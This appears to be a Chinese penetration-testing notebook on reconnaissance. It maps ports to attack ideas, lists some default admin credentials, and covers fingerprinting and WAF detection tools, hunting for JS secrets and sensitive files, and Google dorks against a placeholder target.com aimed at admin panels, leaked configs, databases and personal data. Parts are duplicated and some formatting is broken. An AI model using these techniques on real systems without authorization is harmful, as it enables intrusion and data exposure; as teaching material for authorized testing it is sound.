| tcp 1433                          | SQL Server            | 注入,提权,sa弱口令,爆破                                      |
| tcp 1521                          | Oracle                | tns爆破,注入,弹shell…                                        |
| tcp 1500                          | ISPmanager            | 弱口令                                                       |
| tcp 1723                          | PPTP                  | 爆破,想办法钓VPN账号,进内网                                  |
| tcp 2082,2083                     | cPanel                | 弱口令                                                       |
| tcp 2181                          | ZooKeeper             | 未授权访问                                                   |
| tcp 2601,2604                     | Zebra                 | 默认密码zerbra                                               |
| tcp 3128                          | Squid                 | 弱口令                                                       |
| tcp 3312,3311                     | kangle                | 弱口令                                                       |
| tcp 3306                          | MySQL                 | 注入,提权,爆破                                               |
| tcp 3389                          | Windows rdp           | shift后门[需要03以下的系统],爆破,ms12-020                    |
| tcp 3690                          | SVN                   | svn泄露,未授权访问                                           |
| tcp 4848                          | GlassFish             | 弱口令                                                       |
| tcp 5000                          | Sybase/DB2            | 爆破,注入                                                    |
| tcp 5432                          | PostgreSQL            | 爆破,注入,弱口令                                             |
| tcp 5900,5901,5902                | VNC                   | 弱口令爆破                                                   |
| tcp 5984                          | CouchDB               | 未授权导致的任意指令执行                                     |
| tcp 6379                          | Redis                 | 可尝试未授权访问,弱口令爆破                                  |
| tcp 7001,7002                     | WebLogic              | Java反序列化,弱口令                                          |
| tcp 7778                          | Kloxo                 | 主机面板登录                                                 |
| tcp 8000                          | Ajenti                | 弱口令                                                       |
| tcp 8009                          | tomcat Ajp            | Tomcat-Ajp协议漏洞                                           |
| tcp 8443                          | Plesk                 | 弱口令                                                       |
| tcp 8069                          | Zabbix                | 远程执行,SQL注入                                             |
| tcp 8080-8089                     | Jenkins,JBoss         | 反序列化,控制台弱口令                                        |
| tcp 9080-9081,9090                | WebSphere             | Java反序列化/弱口令                                          |
| tcp 9200,9300                     | ElasticSearch         | 远程执行                                                     |
| tcp 11211                         | Memcached             | 未授权访问                                                   |
| tcp 27017,27018                   | MongoDB               | 爆破,未授权访问                                              |
| tcp 50070,50030                   | Hadoop                | 默认端口未授权访问                                           |

| **端口号** | **端口说明**                     | **渗透思路**                                                 |
| :--------- | :------------------------------- | :----------------------------------------------------------- |
| 21/69      | FTP/TFTP：文件传输协议           | 爆破、内网嗅探                                               |
| 22         | SSH：远程连接                    | 用户名枚举、爆破                                             |
| 23         | Telnet：远程连接                 | 爆破、内网嗅探                                               |
| 25         | SMTP：邮件服务                   | 邮件伪造                                                     |
| 53         | DNS：域名系统                    | DNS域传送\DNS缓存投毒\DNS欺骗\利用DNS隧道技术刺透防火墙      |
| 389        | LDAP                             | 未授权访问（通过LdapBrowser工具直接连入）                    |
| 443        | https服务                        | OpenSSL 心脏滴血（nmap -sV --script=ssl-heartbleed 目标）    |
| 445        | SMB服务                          | ms17_010远程代码执行                                         |
| 873        | rsync服务                        | 未授权访问                                                   |
| 1090/1099  | Java-rmi                         | JAVA反序列化远程命令执行漏洞                                 |
| 1352       | Lotus Domino邮件服务             | 爆破：弱口令、信息泄漏：源代码                               |
| 1433       | MSSQL                            | 注入、SA弱口令爆破、提权                                     |
| 1521       | Oracle                           | 注入、TNS爆破                                                |
| 2049       | NFS                              | 配置不当                                                     |
| 2181       | ZooKeeper服务                    | 未授权访问                                                   |
| 3306       | MySQL                            | 注入、爆破、写shell、提权                                    |
| 3389       | RDP                              | 爆破、Shift后门、CVE-2019-0708远程代码执行                   |
| 4848       | GlassFish控制台                  | 爆破：控制台弱口令、认证绕过                                 |
| 5000       | Sybase/DB2数据库                 | 爆破、注入                                                   |
| 5432       | PostgreSQL                       | 爆破弱口令、高权限执行系统命令                               |
| 5632       | PcAnywhere服务                   | 爆破弱口令                                                   |
| 5900       | VNC                              | 爆破：弱口令、认证绕过                                       |
| 6379       | Redis                            | 未授权访问、爆破弱口令                                       |
| 7001       | WebLogic中间件                   | 反序列化、控制台弱口令+部署war包、SSRF                       |
| 8000       | jdwp                             | JDWP 远程命令执行漏洞（[工具](https://github.com/IOActive/jdwp-shellifier)） |
| 8080/8089  | Tomcat/JBoss/Resin/Jetty/Jenkins | 反序列化、控制台弱口令、未授权                               |
| 8161       | ActiveMQ                         | admin/admin、任意文件写入、反序列化                          |
| 8069       | Zabbix                           | 远程命令执行                                                 |
| 9043       | WebSphere控制台                  | 控制台弱口令[https://:9043/ibm/console/logon.jsp、远程代码执行](https://blog.gm7.org/个人知识库/01.渗透测试/01.信息收集/1.资产收集/03.IP段信息收集/07.端口对应渗透（端口渗透备忘录）.html) |
| 9200/9300  | Elasticsearch服务                | 远程代码执行                                                 |
| 11211      | Memcache                         | 未授权访问（nc -vv 目标 11211）                              |
| 27017      | MongoDB                          | 未授权访问、爆破弱口令                                       |
| 50000      | SAP                              | 远程代码执行                                                 |
| 50070      | hadoop                           | 未授权访问                                                   |

------

| **端口号**  | **服务**             | **渗透思路**                                   |
| :---------- | :------------------- | :--------------------------------------------- |
| 21          | FTP/TFTP/VSFTPD      | 爆破/嗅探/溢出/后门                            |
| 22          | ssh远程连接          | 爆破/openssh漏洞                               |
| 23          | Telnet远程连接       | 爆破/嗅探/弱口令                               |
| 25          | SMTP邮件服务         | 邮件伪造                                       |
| 53          | DNS域名解析系统      | 域传送/劫持/缓存投毒/欺骗                      |
| 67/68       | dhcp服务             | 劫持/欺骗                                      |
| 110         | pop3                 | 爆破/嗅探                                      |
| 139         | Samba服务            | 爆破/未授权访问/远程命令执行                   |
| 143         | Imap协议             | 爆破161SNMP协议爆破/搜集目标内网信息           |
| 389         | Ldap目录访问协议     | 注入/未授权访问/弱口令                         |
| 445         | smb                  | ms17-010/端口溢出                              |
| 512/513/514 | Linux Rexec服务      | 爆破/Rlogin登陆                                |
| 873         | Rsync服务            | 文件上传/未授权访问                            |
| 1080        | socket               | 爆破                                           |
| 1352        | Lotus domino邮件服务 | 爆破/信息泄漏                                  |
| 1433        | mssql                | 爆破/注入/SA弱口令                             |
| 1521        | oracle               | 爆破/注入/TNS爆破/反弹shell2049Nfs服务配置不当 |
| 2181        | zookeeper服务        | 未授权访问                                     |
| 2375        | docker remote api    | 未授权访问                                     |
| 3306        | mysql                | 爆破/注入                                      |
| 3389        | Rdp远程桌面链接      | 爆破/shift后门                                 |
| 4848        | GlassFish控制台      | 爆破/认证绕过                                  |
| 5000        | sybase/DB2数据库     | 爆破/注入/提权                                 |
| 5432        | postgresql           | 爆破/注入/缓冲区溢出                           |
| 5632        | pcanywhere服务       | 抓密码/代码执行                                |
| 5900        | vnc                  | 爆破/认证绕过                                  |
| 6379        | Redis数据库          | 未授权访问/爆破                                |
| 7001/7002   | weblogic             | java反序列化/控制台弱口令                      |
| 80/443      | http/https           | web应用漏洞/心脏滴血                           |
| 8069        | zabbix服务           | 远程命令执行/注入                              |
| 8161        | activemq             | 弱口令/写文件                                  |
| 8080/8089   | Jboss/Tomcat/Resin   | 爆破/PUT文件上传/反序列化                      |
| 8083/8086   | influxDB             | 未授权访问                                     |
| 9000        | fastcgi              | 远程命令执行                                   |
| 9090        | Websphere            | 控制台爆破/java反序列化/弱口令                 |
| 9200/9300   | elasticsearch        | 远程代码执行                                   |
| 11211       | memcached            | 未授权访问                                     |
| 27017/27018 | mongodb              | 未授权访问/爆破                                |

| **端口号** | **服务**          | **渗透思路**                                                 |
| :--------- | :---------------- | :----------------------------------------------------------- |
| 20         | ftp_data          | 爆破、嗅探、溢出、后门                                       |
| 21         | ftp_control       | 爆破、嗅探、溢出、后门                                       |
| 23         | telnet            | 爆破、嗅探                                                   |
| 25         | smtp              | 邮件伪造                                                     |
| 53         | DNS               | DNS区域传输、DNS劫持、DNS缓存投毒、DNS欺骗、深度利用：利用DNS隧道技术刺透防火墙 |
| 67         | dhcp              | 劫持、欺骗                                                   |
| 68         | dhcp              | 劫持、欺骗                                                   |
| 110        | pop3              | 爆破                                                         |
| 139        | samba             | 爆破、未授权访问、远程代码执行                               |
| 143        | imap              | 爆破                                                         |
| 161        | snmp              | 爆破                                                         |
| 389        | ldap              | 注入攻击、未授权访问                                         |
| 512        | linux r           | 直接使用rlogin                                               |
| 513        | linux r           | 直接使用rlogin                                               |
| 514        | linux r           | 直接使用rlogin                                               |
| 873        | rsync             | 未授权访问                                                   |
| 888        | BTLINUX           | 宝塔Linux主机管理后台/默认帐户：admin｜默认密码：admin       |
| 999        | PMA               | 护卫神佩带的phpmyadmin管理后台，默认帐户：root｜默认密码：huweishen.com |
| 1080       | socket            | 爆破：进行内网渗透                                           |
| 1352       | lotus             | 爆破：弱口令、信息泄露：源代码                               |
| 1433       | mssql             | 爆破：使用系统用户登录、注入攻击                             |
| 1521       | oracle            | 爆破：TNS、注入攻击                                          |
| 2049       | nfs               | 配置不当                                                     |
| 2181       | zookeeper         | 未授权访问                                                   |
| 3306       | mysql             | 爆破、拒绝服务、注入                                         |
| 3389       | rdp               | 爆破、Shift后门                                              |
| 4848       | glassfish         | 爆破：控制台弱口令、认证绕过                                 |
| 5000       | sybase/DB2        | 爆破、注入                                                   |
| 5432       | postgresql        | 缓冲区溢出、注入攻击、爆破：弱口令                           |
| 5632       | pcanywhere        | 拒绝服务、代码执行                                           |
| 5900       | vnc               | 爆破：弱口令、认证绕过                                       |
| 5901       | vnc               | 爆破：弱口令、认证绕过                                       |
| 5902       | vnc               | 爆破：弱口令、认证绕过                                       |
| 6379       | redis             | 未授权访问、爆破：弱口令                                     |
| 7001       | weblogic          | JAVA反序列化、控制台弱口令、控制台部署webshell               |
| 7002       | weblogic          | JAVA反序列化、控制台弱口令、控制台部署webshell               |
| 80         | web               | 常见Web攻击、控制台爆破、对应服务器版本漏洞                  |
| 443        | web               | 常见Web攻击、控制台爆破、对应服务器版本漏洞                  |
| 8080       | web｜Tomcat｜..   | 常见Web攻击、控制台爆破、对应服务器版本漏洞、Tomcat漏洞      |
| 8069       | zabbix            | 远程命令执行                                                 |
| 9090       | websphere         | 文件泄露、爆破：控制台弱口令、Java反序列                     |
| 9200       | elasticsearch     | 未授权访问、远程代码执行                                     |
| 9300       | elasticsearch     | 未授权访问、远程代码执行                                     |
| 11211      | memcacache        | 未授权访问                                                   |
| 27017      | mongodb           | 爆破、未授权访问                                             |
| 27018      | mongodb           | 爆破、未授权访问                                             |
| 50070      | Hadoop            | 爆破、未授权访问                                             |
| 50075      | Hadoop            | 爆破、未授权访问                                             |
| 14000      | Hadoop            | 爆破、未授权访问                                             |
| 8480       | Hadoop            | 爆破、未授权访问                                             |
| 8088       | web               | 爆破、未授权访问                                             |
| 50030      | Hadoop            | 爆破、未授权访问                                             |
| 50060      | Hadoop            | 爆破、未授权访问                                             |
| 60010      | Hadoop            | 爆破、未授权访问                                             |
| 60030      | Hadoop            | 爆破、未授权访问                                             |
| 10000      | Virtualmin/Webmin | 服务器虚拟主机管理系统                                       |
| 10003      | Hadoop            | 爆破、未授权访问                                             |
| 5984       | couchdb           | 未授权访问                                                   |
| 445        | SMB               | 弱口令爆破，检测是否有ms_08067等溢出                         |
| 1025       | 111               | NFS                                                          |
| 2082       |                   | cpanel主机管理系统登陆 （国外用较多）                        |
| 2083       |                   | cpanel主机管理系统登陆 （国外用较多）                        |
| 2222       |                   | DA虚拟主机管理系统登陆 （国外用较多）                        |
| 2601       |                   | zebra路由                                                    |
| 2604       |                   | zebra路由                                                    |
| 3128       |                   | 代理默认端口,如果没设置口令很可能就直接漫游内网了            |
| 3311       |                   | kangle主机管理系统登陆                                       |
| 3312       |                   | kangle主机管理系统登陆                                       |
| 4440       |                   | 参考WooYun: 借用新浪某服务成功漫游新浪内网                   |
| 6082       |                   | 参考WooYun: Varnish HTTP accelerator CLI 未授权访问易导致网站被直接篡改或者作为代理进入内网 |
| 7778       |                   | 主机控制面板登录                                             |
| 8083       |                   | 主机管理系统 （国外用较多）                                  |
| 8649       |                   |                                                              |
| 8888       |                   | 主机管理系统默认端口                                         |
| 9000       |                   | fcgi php执行                                                 |
| 50000      | SAP               | 命令执行                                                     |

**Web端口：**

```php
80,81,82,443,5000,7001,7010,7100,7547,7777,7801,8000,8001,8002,8003,8005,8009,8010,8011,8060,8069,8070,8080,8081,8082,8083,8085,8086,8087,8088,8089,8090,8091,8161,8443,8880,8888,8970,8989,9000,9001,9002,9043,9090,9200,9300,9443,9898,9900,9998,10002,50000,50070
```

**服务器：**

```php
21,22,445,3389,5900
```

**数据库：**

```php
1433,1521,3306,6379,11211,27017
```

### 06IP定位

这里提供几个不错的溯源定位工具：

https://www.opengps.cn/Default.aspx
https://www.chaipip.com/aiwen.html
https://cz88.net/

## 0x04 指纹信息

通过关键特征，去识别出目标指纹信息可以快速了解目标架构信息，调整攻击方向。

常见指纹信息：

- CMS
  - Discuz、织梦、帝国CMS、WordPress、ecshop、蝉知等
- 前端技术
  - HTML5、jquery、bootstrap、Vue等
- 开发语言
  - PHP、JAVA、Ruby、Python、C#等
- web服务器
  - Apache、Nginx、IIS、lighttpd等
- 应用服务器：
  - Tomcat、Jboss、Weblogic、Websphere等
- 操作系统信息
  - Linux、windows等
- CDN信息
  - 帝联、Cloudflare、网宿、七牛云、阿里云等
- WAF信息
  - 创宇盾、宝塔、安全狗、D盾、玄武盾等。
- 其他组件信息
  - fastjson、shiro、log4j等
  - OA协议办公

### **01CMS**

已知目标CMS后，可以通过已知漏洞匹配利用，如果是开源CMS，就可以进行审计精准发现问题点。

#### 开发语言识别思路

1. 通过爬虫获取动态链接然后进行正则匹配判断

2. header头中X-Powered-By信息

3. Set-Cookie特征信息

   如包含PHPSSIONID说明是php、包含JSESSIONID说明是java、包含ASP.NET_SessionId说明是aspx。

#### 服务器系统识别思路

1. 通过ping命令根据回显中的ttl值来判断是win还是linux，但值可被修改精准度不高。默认Linux是64，win是128
2. 页面回显、报错回显、header头等站点泄露的系统信息。
3. nmap

```bash
nmap -O IP
```

#### CMS识别思路

##### **特定文件的MD5**

一般来说，网站的特定图标、js、css等静态文件不会去修改，通过爬虫对这些文件进行抓取并与规则库中md5值做对比，如果一致就是同一CMS。这种情况不排除会出现二开导致的误报，但速度较快。

##### **页面关键字**

正则匹配关键字或报错信息判断。如Powered by Discuz、dedecms等、tomcat报错页面

##### **请求头信息关键字**

通过匹配http响应包中的banner信息来识别。

如：

- X-Powered-By字段
- Cookies 特征
- Server信息
- WWW-Authenticate
- Meta特征
- ……

##### **url关键字**

将url中存在路由、robots.txt、爬虫结果与规则库做对比分析来判断是否使用了某CMS

如：

- wordpress默认存在目录：wp-includes、wp-admin
- 织梦默认管理后台：dede
- 帝国常用目录：login/loginjs.php
- weblogic常用目录：wls-wsat
- jboss常用目录：jmx-console
- ……

#### 在线平台

- [bugscaner](http://whatweb.bugscaner.com/look/)
- [数字观星](https://fp.shuziguanxing.com/#/)
- [云悉](https://www.yunsee.cn/)（自从需要认证后就没有用过.....还认证失败.....）
- [WhatWeb](https://www.whatweb.net/)


#### 工具

- 御剑Web指纹识别
- WhatWeb
- Test404轻量CMS指纹识别
- 椰树
- WTFScan
- [Kscan](https://github.com/lcvvvv/kscan)
- [CMSeeK](https://github.com/Tuhinshubhra/CMSeeK)
- [CMSmap](https://github.com/Dionach/CMSmap)
- [ACMSDiscovery](https://github.com/aedoo/ACMSDiscovery)
- [TideFinger](https://github.com/TideSec/TideFinger)
- [AngelSword](https://github.com/Lucifer1993/AngelSword)
- [EHole(棱洞)2.0](https://github.com/EdgeSecurityTeam/EHole)

> ps: cms识别主要还是在于指纹库的维护和更新。

#### 浏览器插件

[wappalyzer](https://www.wappalyzer.com/)


插件开源指纹库：https://github.com/AliasIO/wappalyzer/tree/master/src/technologies

### 02WAF

```
waf是网页程序防火墙一般是软件形式的防火墙非硬件
设备硬件防火墙 火绒软件防火墙 wafweb防火墙
```

遇到WAF就得对症下药，总的来说识别分为两种手工和工具：

#### 手工

一般直接输入敏感字段触发拦截规则库就行，如XSS、SQL payload


常见的WAF拦截页面可以参考下某大佬总结的WAF一图流：https://cloud.tencent.com/developer/article/1872310

#### 工具

- https://github.com/EnableSecurity/wafw00f
- https://github.com/Ekultek/WhatWaf
- nmap的`http-waf-fingerprint.nse`脚本

### 03组件

一般通过异常报错、常用路由、常用header头来获取组件版本、配置等相关信息。

常见组件漏洞简记参考博客《组件漏洞简记》章

### 04信息处理

#### Ehole

> https://github.com/EdgeSecurityTeam/EHole
>
> EHole是一款对资产中重点系统指纹识别的工具，在红队作战中，信息收集是必不可少的环节，如何才能从大量的资产中提取有用的系统(如OA、VPN、Weblogic...)。EHole旨在帮助红队人员在信息收集期间能够快速从C段、大量杂乱的资产中精准定位到易被攻击的系统，从而实施进一步攻击。

#### AlliN

> https://github.com/P1-Team/AlliN
>
> 一个辅助平常渗透测试项目或者攻防项目快速打点的综合工具，由之前写的工具AG3改名而来。是一款轻便、小巧、快速、全面的扫描工具。多用于渗透前资产收集和渗透后内网横向渗透。工具从项目上迭代了一些懒人功能（比如提供扫描资产文件中，可以写绝大部分的各种形式的链接/CIDR,并在此基础上可以添加任意端口和路径）

#### Bufferfly

> https://github.com/dr0op/bufferfly
>
> 攻防资产处理小工具，对攻防前的信息搜集到的大批量资产/域名进行存活检测、获取标题头、语料提取、常见web端口检测、简单中间识别，去重等，便于筛选有价值资产。

#### HKTools

> https://github.com/Security-Magic-Weapon/HKTools
>
> 一款辅助安全研发在日常工作中渗透测试、安全研究、安全开发等工作的工具

#### EyeWitness

> https://github.com/FortyNorthSecurity/EyeWitness

Eyewitness可自动查询URL对应网站的截图、RDP服务、Open VNC服务器以及一些服务器title、甚至是可识别的默认凭据等，最终会生成一个详细的html报告。

#### anew(去重)

> https://github.com/tomnomnom/anew
>
> 好用的去重对比工具

### 05敏感信息

### 01目录结构及敏感文件

常见的敏感目录及文件，会对渗透突破有着很大作用，收集思路一般是爬虫采集、递归扫描、Google Hacking。

#### 常见敏感目录及文件

- 备份文件：`www.zip`、`www.rar`、`blog.gm7.org.zip`等
- 代码仓库：`.git`、`.svn`等
- 敏感、隐藏api接口：`/swagger-ui.html`、`/env`等
- 站点配置文件：`crossdomain.xml`、`sitemap.xml`、`security.txt`等
- robots文件
- 网站后台管理页面
- 文件上传/下载界面
- ...

> tips:
>
> - 扫描核心主要在于字典价值
> - 403、404页面可能会存在一些信息，可以多fuzz下。
> - 工具使用时善于关键字过滤，将会减少一些误报。

#### 工具推荐

##### [dirsearch](https://github.com/maurosoria/dirsearch)

dirsearch 是一款使用 python3 编写的，用于暴力破解目录的工具，速度不错，支持随机代理、内容过滤。

##### [feroxbuster](https://github.com/epi052/feroxbuster)

用Rust编写的快速，简单，递归的内容发现工具

##### [yjdirscan](https://github.com/foryujian/yjdirscan)

御剑目录扫描专业版

#### 字典推荐

##### [fuzzDicts](https://github.com/TheKingOfDuck/fuzzDicts)

庞大的Web Pentesting Fuzz 字典，部分精准度不错，可惜更新是2021的时候了。

##### [Web-Fuzzing-Box](https://github.com/gh0stkey/Web-Fuzzing-Box)

Web Fuzzing Box - Web 模糊测试字典与一些Payloads，主要包含：弱口令暴力破解、目录以及文件枚举、Web漏洞...

字典运用于实战案例：https://gh0st.cn/archives/2019-11-11/1

##### [XXE 暴力枚举字典](https://mp.weixin.qq.com/s/7kUFx6VpCgNVomQ_e6H6HA)


#### 02JS信息搜集

js文件一般用于帮助网站执行某些功能，存储着客户端代码，可能会存在大量的敏感信息，通过阅读分析可能会找到宝藏。

##### JS信息查找方法

###### 1. 手工

通过查看页面源代码信息，找到.js后筛选特定信息，但这种方法费时费力，一般网站都会存在大量的js文件，还多数为混淆后的信息。

关键信息查找可以使用浏览器自带的全局搜索：


如：通过path:来查Vue框架路由


###### 2. 半自动

通过抓包拦截获取url后使用脚本筛选，比如`Burp Suite`专业版，可以在`Target > sitemap`下，选中目标网站选中`Engagement tools -> Find scripts`，找到网站所有脚本内容。


也可以使用`Copy links in selected items`复制出选中脚本项目中所包含的URL链接。


粘贴下，然后就可以手工验证url信息价值，有时候可以发现一些未授权、敏感的api接口或者一些GitHub仓库、key值等。


这种方法因为结合手工，在一些深层目录架构中，通过`Burp Suite script`可以获取到一些工具跑不到的js信息。

3. 工具：

**[JSFinder](https://github.com/Threezh1/JSFinder)**

> JSFinder是一款用作快速在网站的js文件中提取URL，子域名的工具

[JSINFO-SCAN](https://github.com/p1g3/JSINFO-SCAN)

> 递归爬取域名(netloc/domain)，以及递归从JS中获取信息的工具

[URLFinder](https://github.com/pingc0y/URLFinder)

> URLFinder是一款用于快速提取检测页面中JS与URL的工具。
>
> 功能类似于JSFinder，但JSFinder好久没更新了。

[HAE](https://github.com/gh0stkey/HaE)

> **HaE**是基于 `BurpSuite Java插件API` 开发的请求高亮标记与信息提取的辅助型框架式插件，该插件可以通过自定义正则的方式匹配响应报文或请求报文，并对满足正则匹配的报文进行信息高亮与提取。如匹配敏感信息、提取页面中的链接信息等。

[**Repo-supervisor**](https://github.com/auth0/repo-supervisor#)

> Repo-supervisor 是一种工具，可帮助您检测代码中的秘密和密码。
>
> [command-line-mode](https://github.com/auth0/repo-supervisor#command-line-mode) 功能：
>
> CLI 模式允许使用源代码扫描本地目录以检测文件中的机密和密码。结果可能以明文或 JSON 格式返回。

# 7.22

###### 3.工具

**[JSFinder](https://github.com/Threezh1/JSFinder)**

> JSFinder是一款用作快速在网站的js文件中提取URL，子域名的工具

[JSINFO-SCAN](https://github.com/p1g3/JSINFO-SCAN)

> 递归爬取域名(netloc/domain)，以及递归从JS中获取信息的工具

[URLFinder](https://github.com/pingc0y/URLFinder)

> URLFinder是一款用于快速提取检测页面中JS与URL的工具。
>
> 功能类似于JSFinder，但JSFinder好久没更新了。

[HAE](https://github.com/gh0stkey/HaE)

> **HaE**是基于 `BurpSuite Java插件API` 开发的请求高亮标记与信息提取的辅助型框架式插件，该插件可以通过自定义正则的方式匹配响应报文或请求报文，并对满足正则匹配的报文进行信息高亮与提取。如匹配敏感信息、提取页面中的链接信息等。

[**Repo-supervisor**](https://github.com/auth0/repo-supervisor#)

> Repo-supervisor 是一种工具，可帮助您检测代码中的秘密和密码。
>
> [command-line-mode](https://github.com/auth0/repo-supervisor#command-line-mode) 功能：
>
> CLI 模式允许使用源代码扫描本地目录以检测文件中的机密和密码。结果可能以明文或 JSON 格式返回。

###### 4. 其他辅助工具

信息收集过程中，js文件不用仅限于当前网站版本，网站的历史版本中也可能会存在一些未失效的关键信息。

**历史界面**

[wayback](https://archive.org/web/)会记录网站版本更迭，可以获取到之前版本的网站，不仅可以用于收集历史js文件，也有可能找到一些后来删除的敏感资产信息，或者一些漏洞


**历史信息查找工具：**

[**waybackurls**](https://github.com/tomnomnom/waybackurls)

> 获取 Wayback Machine 知道的域的所有 URL

收集历史js文件

webbackurls target.com | grep "\.js" | uniq |sort

通过`Wayback Machine`收集到的url js列表需要进行存活检验，避免误报，可以使用curl命令或者[hakcheckurl](https://github.com/hakluke/hakcheckurl)工具进行检验。最后在做url提取即可。

**反混肴**

对于存在混淆的代码需要进行反混淆美化下，使其更易看懂

[**js-beautify**](https://github.com/beautify-web/js-beautify)

> 这个小美化器将重新格式化和重新缩进书签、丑陋的 JavaScript、由 Dean Edward 的流行打包程序打包的解包脚本，以及由 npm 包 [javascript-obfuscator](https://github.com/javascript-obfuscator/javascript-obfuscator)处理的部分去混淆脚本。

**[de4js](https://lelinhtinh.github.io/de4js/)**

> 在线JavaScript 反混淆器和解包器

**url采集**

[**Rad**](https://stack.chaitin.com/tool/detail?id=2)

一款专为安全扫描而生的浏览器爬虫。

[whatweb-plus](https://github.com/winezer0/whatweb-plus)

获取网站title头及Web指纹

[url-extractor](http://www.bulkdachecker.com/url-extractor/)

在线url提取

js**中关键信息简记**

- 密码、api密钥、secretKey等硬编码
- 隐藏的api接口，如后台、业务测试、某服务等，可能会存在未授权。
- 注释信息，注释为代码时，可能会通过修改注释改变业务逻辑，实现机制绕过，如xss绕过、登录绕过等。
- Webpack 打包静态资源、js.map后缀文件，是jQuery中的一个新功能，支持Source Map,储存着各种api接口信息，而Webpack打包的信息很多都会放在js.map文件中，通过还原代码可能会找到一些未授权的api接口。相关处理工具如下：
  - [sourcemapper](https://github.com/denandz/sourcemapper)
  - https://www.npmjs.com/package/restore-source-tree
  - https://github.com/paazmaya/shuji
- 子域名信息
- 依赖或框架，对于旧依赖或框架可以直接使用[retire.js](https://retirejs.github.io/retire.js/)扫描相关漏洞。
- ……

#### 03Google Hacking

Google作为一款全球通用的发达搜索引擎，爬取的和收录的数据量也是庞大无比，善用搜索引擎语法可以帮忙我们发现更多敏感信息。

#### 说明

| 指令              | 用法                                                         | 示例                                                         |
| :---------------- | :----------------------------------------------------------- | :----------------------------------------------------------- |
| “”（引号）        | 用引号来查询一个确切的单词或短语                             | 查找有关《百年孤独》这本书的网页，语法：“百年孤独”           |
| OR（或者）        | 用OR分隔搜索词，同时执行两个搜索查询，这将找到包含多个单词之一的页面。 | 搜索引用了“Google Drive”、“Dropbox”或“OneDrive”的页面，语法：Google Drive OR Dropbox OR OneDrive |
| -（减号、连字符） | 在单词或网站前使用连字符将其从搜索结果中排除                 | 从搜索结果中排除www主机名，语法：-www site:wikipedia.org     |
| allintext:        | 使用allintext:[搜索短语]查找正文中包含这些单词的页面         | 查找正文中有关Roth、IRA投资讯息的页面，语法：allintext:Roth IRA 投资 |
| allintitle:       | 使用allintitle:[搜索短语]查找标题中包含这些单词的页面        | 查找标题中同时包含“Apple”和“notebook”的页面，语法：allintitle:Apple notebook |
| allinurl:         | 使用allinurl:[搜索短语]查找URL中包含这些单词的页面           | 查找URL中同时包含”Microsoft” and “Surface”的页面，语法：allinurl:Microsoft Surface |
| site:             | 使用site:[URL]将搜索结果限制到特定网站                       | 查找云点SEO网关于谷歌SEO的页面，语法：site:yundianseo.com 谷歌SEO |
| ~（波浪号）       | 使用波浪号获得目标关键词及其近似词的搜索结果                 | 查找SEO方面的策略或者教程，语法：SEO ~教程                   |
| related:          | 使用related:[URL]查找与特定网站类似的网站                    | 查找与云点SEO类似的网站，语法：related:yundianseo.com        |
| define:           | 使用define:[搜索短语]查找其定义                              | 查找SEO的定义，语法：define:SEO                              |
| $                 | 使用$查找特定价格的商品                                      | 查找一款售价在99美金的手机，语法：mobile phone $99           |
| location:         | 使用location:[地点]查看某个地区内的相关信息                  | 查询南京的酒店，语法：hotel location:Nanjing                 |
| *（星号）         | 添加星号作为未知单词或事实的占位符                           | 查找以“生活就像一个”开头的引语，语法：生活就像一个*          |
| filetype:         | 使用filetype:[后缀]将结果限制为特定的文件格式，如PDF或DOC。  | 查找PDF格式的Microsoft Office键盘快捷键相关文件，语法：filetype:pdf Microsoft Office键盘快捷键 |
| ..（两点）        | 用两个句点分隔数字，不带空格，以搜索该范围内的数字           | 查找1950年至2000年间发生的计算机里程碑，语法：”计算机里程碑” 1950..2000 |
| AROUND(n)         | 在两个搜索词之间加上AROUND(n)，以查找两个词间有特定距离的页面。用数字n设置术语之间的最大距离，这对于查找两个搜索词之间的关系很有用。 | 查找在同一句话或段落中提到Facebook和Microsoft的页面，语法：Facebook AROUND(7) Microsoft |

##### hacking常用语法

- [Google Hacking Database](https://www.exploit-db.com/google-hacking-database)
- [cxsecurity-hacking-dorks](https://cxsecurity.com/dorks/)
- [Github Google Hacking](https://github.com/BullsEye0/google_dork_list/blob/master/google_Dorks.txt)

###### 管理后台地址

```php
site:target.com intext:管理 | 后台 | 后台管理 | 登陆 | 登录 | 用户名 | 密码 | 系统 | 账号 | login | system  
site:target.com inurl:login | inurl:admin | inurl:manage | inurl:manager | inurl:admin_login | inurl:system | inurl:backend  
site:target.com intitle:管理 | 后台 | 后台管理 | 登陆 | 登录
```

###### 上传类漏洞地址

```php
site:target.com inurl:file  
site:target.com inurl:upload
```

###### 注入页面

```php
site:target.com inurl:?id=  
site:target.com inurl:php?id=
```

###### 编辑器页面

```php
site:target.com inurl:ewebeditor
```

###### 目录遍历漏洞

```php
site:target.com intitle: "index of"
```

###### SQL错误

``
site:target.com intext:"sql syntax near" | intext:"syntax error has occurred" | intext:"incorrect syntax near" | intext:"unexpected end of SQL command" | intext:"Warning: mysql_connect()" | intext:”Warning: mysql_query()" | intext:"Warning: pg_connect()"

```php
##### phpinfo
```

site:target.com ext:php intitle:phpinfo "published by the PHP Group"

```php
##### 配置文件泄露
```

site:target.com ext:.xml | .conf | .cnf | .reg | .inf | .rdp | .cfg | .txt | .ora | .ini

```php
##### 数据库文件泄露
```

site:target.com ext:.sql | .dbf | .mdb | .db

```php
##### 日志文件泄露
```

site:target.com ext:.log

~~~php
##### 备份和历史文件泄露
```bash
site:target.com ext:.bkf | .bkp | .old | .backup | .bak | .swp | .rar | .txt | .zip | .7z | .sql | .tar.gz | .tgz | .tar
~~~

###### 公开文件泄露

```bash
site:target.com filetype:.doc | .docx | .xls | .xlsx | .ppt | .pptx | .odt | .pdf | .rtf | .sxw | .psw | .csv
```

###### 邮箱信息

```bash
site:target.com intext:@target.com  
site:target.com 邮件  
site:target.com email
```

###### 社工信息

```bash
site:target.com intitle:账号 | 密码 | 工号 | 学号 | 身份证
```

#### **tips：**

- 判断目标是否被黑过。（如html寄生虫）

site:xx.com指定搜索发现多个垃圾数据，大概率中招过。（黑帽SEO劫持）

- 可搜索渗透特征痕迹（如遗留webshell、执行命令接口、黑页）
- 搜索常见的敏感文件、路由
- 发现其他人正在搜索的内容
  - [Google Trends](https://www.yundianseo.com/google-trends/)
- 搜索结果别忘了快照信息。
- Google搜索会追踪ip和地址，想要隐私可以试试私密搜索*（代理访问其他搜索引擎内容）*：
  - [startpage.com](https://www.startpage.com/)
  - [秘迹搜索](https://mijisou.com/)

> ps: 百度、搜狗、bing也是可以使用语法精确搜索，但限于seo逻辑、广告、资源等多个因素，经常不如Google，但有时候结合又有不错的收获。

##### 百度语法

- **`site`:** 搜索特定网站的内容


**`inurl`:** 搜索网址中的内容


- **`“ ”`：** 搜索关键不可拆分


